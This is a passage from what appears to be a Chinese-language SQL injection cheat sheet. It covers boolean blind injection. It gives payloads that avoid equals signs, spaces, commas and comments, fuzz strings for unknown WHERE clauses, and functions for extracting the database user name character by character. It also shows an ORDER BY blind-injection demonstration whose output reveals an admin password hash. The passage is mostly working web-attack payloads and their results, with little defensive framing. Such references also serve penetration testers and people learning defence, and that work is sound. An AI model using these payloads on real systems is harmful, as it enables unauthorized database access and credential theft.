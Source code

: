 ```sql
    
//不使用等号、空格、注释
'or(bool)<>'0
'or((bool)in(1))or'0
    
//其他
or (case when (bool) then 1 else 0 end)
```

有时候where字句有括号又猜不到SQL语句的时候，可以有下列类似的fuzz

```sql
1' or (bool) or '1'='1
1%' and (bool) or 1=1 and '1'='1
```

### 1.4.2 构造逻辑判断

逻辑判断基本就那些函数：

```sql
left(user(),1)>'r'  
right(user(),1)>'r'  
substr(user(),1,1)='r'  
mid(user(),1,1)='r' 
    
//不使用逗号 
user() regexp '^[a-z]'
user() like 'root%'
POSITION('root' in user())
mid(user() from 1 for 1)='r'
mid(user() from 1)='r'
```

`ASCII()`、`ORD()`和`CHAR()`函数一般用做辅助。

### 1.4.3 利用order by盲注

```sql
mysql> select * from admin where username='' or 1 union select 1,2,'5' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | 2        | 5                                |
|  1 | admin    | 51b7a76d51e70b419f60d3473fb6f900 |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)
    
mysql> select * from admin where username='' or 1 union select 1,2,'6' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 51b7a76d51e70b419f60d3473fb6f900 |
|  1 | 2        | 6                                |
+----+----------+----------------------------------+
2 rows in set (0.01 sec)
```

